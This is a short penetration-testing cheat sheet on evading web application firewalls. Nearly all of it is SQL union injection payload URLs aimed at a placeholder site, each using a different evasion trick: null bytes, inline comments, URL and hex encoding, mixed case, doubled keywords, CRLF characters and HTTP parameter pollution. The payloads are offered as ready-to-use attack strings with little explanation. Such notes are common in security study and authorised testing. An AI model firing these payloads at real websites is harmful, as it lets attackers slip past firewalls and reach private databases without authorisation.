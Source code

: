 # Bypassing WAF

## WAF

Some web applications have a Web Application Firewall to prevent web attacks. However, these WAFs are based on rules, access control lists, and policies. Some WAFs can be misconfigured or they may be vulnerable to some exploit. On this page, we will go over some common techniques to bypass WAFs.

### WAF SQL Union Injection Bypass Techniques

The examples below were extracted from this [s4vitar](https://s4vitar.github.io/oscp-preparacion/#) blog post.

Null Bytes:

```text
http://example.com/news.php?id=1+%00’union+select+1,2,3′–
```

SQL Queries through comments:

```text
http://example.com/news.php?id=1+un/**/ion+se/**/lect+1,2,3–
```

URL Encoding

```text
http://example.com/news.php?id=-1 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4—
```

Encode to Hex Forbidden

```text
http://example.com/news.php?id=-1/%2A%2A/union/%2A%2A/select/%2A%2A/1,2,3,4,5 –+-
http://example.com/news.php?id=-1%2F%2Funion%2F%2Fselect%2F**%2F1,2,3,4,5 –+-
```

Case Changing

```text
http://example.com/news.php?id=-1+UnIoN//SeLecT//1,2,3–+-
```

Replaced Keywords

```text
http://example.com/news.php?id=-1+UNunionION+SEselectLECT+1,2,3–+
```

WAF Bypassing - using characters

```text
http://example.com/news.php?id=-1+uni*on+sel*ect+1,2,3,4–+-
```

CRLF WAF Bypass Technique

```text
http://example.com/news.php?id=-1+%0A%0Dunion%0A%0D+%0A%0Dselect%0A%0D+1,2,3,4,5 —
```

HTTP Parameter Pollution \(PHP\)

```text
http://example.com/news.php?id=1;select+1&id=2,3+from+users+where+id=1–
http://example.com/news.php?id=-1/* &id= */union/* &id= */select/* &id= */1,2 —
```



